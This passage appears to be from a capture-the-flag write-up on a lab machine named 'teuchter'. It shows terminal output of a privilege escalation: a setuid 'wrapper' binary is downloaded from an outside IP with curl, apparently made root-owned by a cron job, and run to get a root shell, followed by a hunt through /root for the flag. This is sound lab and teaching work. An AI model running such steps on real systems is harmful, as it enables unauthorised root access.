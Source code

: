 ```plaintext
proclaimers@teuchter:~/letterfromamerica$ rm -rf semaphore
proclaimers@teuchter:~/letterfromamerica$ curl http://192.10.2.4/wrapper -o semaphore
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  8960  100  8960    0     0  1475k      0 --:--:-- --:--:-- --:--:-- 1750k
proclaimers@teuchter:~/letterfromamerica$ ll
ll
total 188
drwxr-xr-x 2 proclaimers proclaimers   4096 May 24 20:32 ./
drwxr-xr-x 5 proclaimers proclaimers   4096 May 24 19:50 ../
-rwxrwxr-x 1 proclaimers proclaimers   8960 May 24 20:31 semaphore*
-r-Sr-sr-t 1 root        root            42 Jul  9  2016 test*
proclaimers@teuchter:~/letterfromamerica$ ll
ll
total 188
drwxr-xr-x 2 proclaimers proclaimers   4096 May 24 20:32 ./
drwxr-xr-x 5 proclaimers proclaimers   4096 May 24 19:50 ../
-rwsr-xr-x 1 root        root          8960 May 24 20:31 semaphore*
-r-Sr-sr-t 1 root        root            42 Jul  9  2016 test*
proclaimers@teuchter:~/letterfromamerica$ ./semaphore
./semaphore
root@teuchter:~/letterfromamerica# id
id
uid=0(root) gid=1002(proclaimers) groups=1002(proclaimers)
```

Oh yes privilege escalation succeeded... We are the root :stuck_out_tongue_winking_eye:!! 


## Flag

I viewed the crontab and I could see an interesting hint. Now I navigated into root folder and I found a flag.txt but it said finding correct flag. I navigated into some folders and finally I found a zip file:

```plaintext
root@teuchter:~/letterfromamerica# crontab -l
....
## So vmfs-tools package eh....?
*/5 * * * * /bin/sh /usr/local/bin/numpties.sh > /dev/null 2>&1
root@teuchter:~/letterfromamerica# cd /root
cd /root
root@teuchter:/root# ls -l
ls -l
total 1084
-rw-r--r-- 1 root root 1094752 Jul  9  2016 flag.jpg
-rw-r--r-- 1 root root     108 Sep 23  2016 flag.txt
drwx------ 3 root root    4096 Aug  1  2016 re-record-not-fade-away
-rw-r--r-- 1 root root      45 May 24 20:45 shells.tgz
root@teuchter:/root# cat flag.txt
cat flag.txt
I say! I say! I say boy! Y'all interested in hochmagandy again...?

Y'all know this aint the correct flag! 
root@teuchter:/root# cd re-record-not-fade-away
cd re-record-not-fade-away
root@teuchter:/root/re-record-not-fade-away# ls -l
ls -l
total 8
-r-------- 1 root root   68 Aug  1  2016 FeelsLikeHeaven
d--------- 3 root root 4096 Aug  1  2016 on
root@teuchter:/root/re-record-not-fade-away# cat FeelsLikeHeaven
cat FeelsLikeHeaven
Yer pure no gonna find the flag... A pit it in a bottle of Red Kola
```